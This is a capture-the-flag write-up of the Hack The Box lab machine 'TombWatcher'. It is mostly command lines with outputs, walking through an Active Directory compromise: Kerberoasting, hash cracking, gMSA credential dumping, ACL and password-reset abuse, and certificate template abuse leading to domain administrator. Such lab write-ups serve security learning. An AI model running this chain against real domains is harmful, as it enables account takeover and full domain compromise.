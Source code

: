 # HTB Seasonal Machine: TombWatcher - Exploitation Report

**Target**: `10.129.243.66`
**Domain**: `tombwatcher.htb`
**Host**: `DC01.tombwatcher.htb`
**Initial Creds**: `henry / H3nry_987TGV!`

---

## 🔍 Initial Enumeration

### Nmap Full Port Scan

```
nmap -p- 10.129.243.66 -oN initialScan
```

**Open Ports:** 53, 80, 88, 135, 139, 389, 445, 464, 593, 636, 3268, 5985, 9389, 49666–49711

### Nmap Script Scan

```
nmap -sC -sV tombwatcher.htb -oN scriptScan
```

**Domain**: tombwatcher.htb
**Hostname**: DC01.tombwatcher.htb
**LDAP, Kerberos, SMB, WinRM detected**

---

## 🧪 Credential Validation & Enumeration

### Validate Credentials

```
crackmapexec ldap tombwatcher.htb -u henry -p 'H3nry_987TGV!' --kerberos
```

**Result**: ✅ Credentials valid

### User Enumeration

```
crackmapexec ldap tombwatcher.htb -u henry -p 'H3nry_987TGV!' --users
```

**Users Found**: Administrator, Guest, krbtgt, Henry, Alfred, sam, john

### AS-REP Roasting

```
impacket-GetNPUsers tombwatcher.htb/ -usersfile users.txt -no-pass
```

**Result**: ❌ No accounts without pre-auth

---

## 🧠 Kerberoasting Alfred

### Confirm `WriteSPN` to `alfred`

**From BloodHound**

![BloodHound Attack Path](Screenshot_2025-06-09_13_17_10.png)

### Add Fake SPN

```
python3 writeSPN.py  # Custom script using ldap3
```

**SPN Added**: `http/fakesvc.tombwatcher.htb`

### Get TGS for Alfred

```
impacket-GetUserSPNs tombwatcher.htb/henry:'H3nry_987TGV!' -dc-host tombwatcher.htb -request
```

**Result**: TGS hash for Alfred dumped

### Crack TGS Hash

```
hashcat -m 13100 alfred_hash.txt /usr/share/wordlists/rockyou.txt
```

**Password Found**: `basketball`

---

## 🔁 Privilege Escalation Chain

### Alfred → INFRASTRUCTURE Group

```
bloodyAD --host 10.129.243.66 -d tombwatcher -u alfred -p basketball add groupMember INFRASTRUCTURE alfred
```

**Result**: ✅ Added

### Dump gMSA Credentials

```
gMSADumper -u alfred -p basketball -d tombwatcher.htb -l 10.129.243.66
```

**Result**: `ansible_dev$` NT hash & AES keys retrieved

### Force Sam's Password Reset

```
bloodyAD --host 10.129.243.66 -d tombwatcher.htb -u ansible_dev$ -p :<NT_HASH> set password sam 'NewP@ssw0rd123!'
```

**Result**: ✅ Success

### Sam → WriteOwner on John

```
owneredit.py tombwatcher.htb/sam:'NewP@ssw0rd123!' -dc-ip 10.129.243.66 -action write -target john -new-owner sam
```

**Result**: Owner changed to `sam`

### Add GenericAll for Sam on John

```
bloodyAD --host 10.129.243.66 -d tombwatcher -u sam -p 'NewP@ssw0rd123!' add genericAll john sam
```

**Result**: ✅ Sam has GenericAll on John

### Reset John's Password

```
bloodyAD --host 10.129.243.66 -d tombwatcher -u sam -p 'NewP@ssw0rd123!' set password john 'Sup3rS3cr3t!'
```

**Result**: ✅ Password reset

---

## 🧼 Cert Admin Path

### Restore Deleted User: cert\_admin

```
Restore-ADObject -Identity 938182c3-bf0b-410a-9aaa-45c8e1a02ebf
```

**Result**: ✅ `cert_admin` restored

### Reset Password

```
Set-ADAccountPassword -Identity cert_admin -Reset -NewPassword (ConvertTo-SecureString 'AdminP@ss123!' -AsPlainText -Force)
Enable-ADAccount -Identity cert_admin
```

**Result**: ✅ Ready to use

---

## 🔥 Abuse ESC6 via WebServer Template

### Request Admin Cert

```
certipy req -u cert_admin -p 'AdminP@ss123!' -ca tombwatcher-CA-1 -template WebServer -target 10.129.243.66 -upn administrator@tombwatcher.htb -application-policies 'Client Authentication'
```

**Result**: ✅ administrator.pfx saved

---

## 🔓 Reset Administrator Password

### Start LDAP Shell with PFX

```
certipy auth -pfx administrator.pfx -dc-ip 10.129.243.66 -domain tombwatcher.htb -ldap-shell
```

```
change_password administrator Admin@2025!
```

**Result**: ✅ Password changed

### Authenticate as Domain Admin

```
evil-winrm -i tombwatcher.htb -u Administrator -p Admin@2025!
```

**Shell**:

```
whoami
> tombwatcher\administrator
```

### Get Flag

```
type C:\Users\Administrator\Desktop\root.txt
```

---

## 🏁 Rooted ✅

